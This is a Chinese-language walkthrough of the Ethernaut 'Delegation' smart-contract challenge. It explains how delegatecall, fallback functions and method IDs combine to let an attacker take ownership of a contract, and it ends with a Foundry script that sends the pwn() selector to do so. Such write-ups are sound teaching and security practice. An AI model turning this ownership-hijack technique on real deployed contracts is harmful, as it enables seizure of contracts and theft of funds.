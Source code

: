 # Level 6 - Delegation
## 題目
[Delegation](https://ethernaut.openzeppelin.com/level/0x73379d8B82Fda494ee59555f333DF7D44483fD58)

### 通關條件
這一關的目標是取得創建實例的所有權。

### 提示
- 仔細看 solidity 文件關於 delegatecall 的低階函式。它是如何怎麽運行，如何委派操作給鏈上函式函式庫，以及它對執行時期作用範圍的影響
- fallback 方法(method)
- 方法(method)的 ID
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
## 解題
### delegatecall
delegatecall 就像是委託行函數

通常 call 一個 function 的時候，都是等待 function 完成接收 return，舉例來說：A 合約去呼叫 B 合約的 function，不論 B 合約做了什麼，都是更改 B 合約裡的內容（變數），頂多最後 return 一些內容給 A ，但還是由 A 決定這些內容要被放置於哪個變數中。

但如果今天用 delegatecall 的方式，執行的雖然是 B 合約的 function，但是當 function 有改變變數時，會是更動 A 合約裡的變數（所以 A 和 B 合約的變數宣告要相同，才可以進行 delegatecall）。
關於 delegatecall，[[中文] WTF Solidity极简入门: 23. Delegatecall](https://github.com/AmazingAng/WTF-Solidity/tree/main/23_Delegatecall) 有更完整的解釋。


### fallback method
fallback 在 [Level 1 - Fallback](https://hackmd.io/@D13/ethernaut1#fallback-%E6%96%B9%E6%B3%95) 中有提到，這裡不再贅述。
### 方法(method)的 ID
Method ID 是函數簽名（Function Signature）經過 Keccak Hash 後的前 4 個 bytes，用於讓程式知道應該要跑哪一個 function，因為其實這題用到的沒有很深，所以先不深入說明，有興趣的可以看：
- [[中文] WTF Solidity极简入门: 29. 函数选择器Selector
](https://github.com/AmazingAng/WTF-Solidity/tree/main/29_Selector#method-idselector%E5%92%8C%E5%87%BD%E6%95%B0%E7%AD%BE%E5%90%8D)
- [[EN] What is a Method ID?](https://info.etherscan.com/what-is-method-id/)


---
研究完提示後，看回合約。這題目標是拿到合約 `Delegation` 的 owner，但是這個合約本身沒有修改 owner 的功能，但是另一個合約 `Delegate` 有這個功能。
所以只要 `Delegation` delegatecall `Delegate` 的 `pwn()`，就可以修改 `Delegation` 的變數 `owner`。而 `Delegation` 的 delegatecall，就在 `fallback()` 之中：
```solidity=25
    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
```
所以我們只要轉帳給 `Delegation` 合約，並且將 `pwn()` 的 Method ID 作為交易資料 `msg.data` 送出即可，轉帳的方法在 [Level 1 - Fallback](https://hackmd.io/@D13/ethernaut1#%E5%A6%82%E4%BD%95%E9%80%8F%E9%81%8E%E8%88%87-ABI-%E4%BA%92%E5%8B%95%E7%99%BC%E9%80%81-ether%EF%BC%9F) 有提過
用 `call` 來轉帳並帶上參數可以看 [WTF Solidity极简入门: 22. Call](https://github.com/AmazingAng/WTF-Solidity/tree/main/22_Call)
攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/06_Delegation.sol";

contract ExploitScript is Script {
    Delegation public level06 = Delegation(payable(your_challenge_address));

    function run() external {
        vm.startBroadcast();
        
        address(level06).call(abi.encodeWithSignature("pwn()"));

        vm.stopBroadcast();
    }
}
```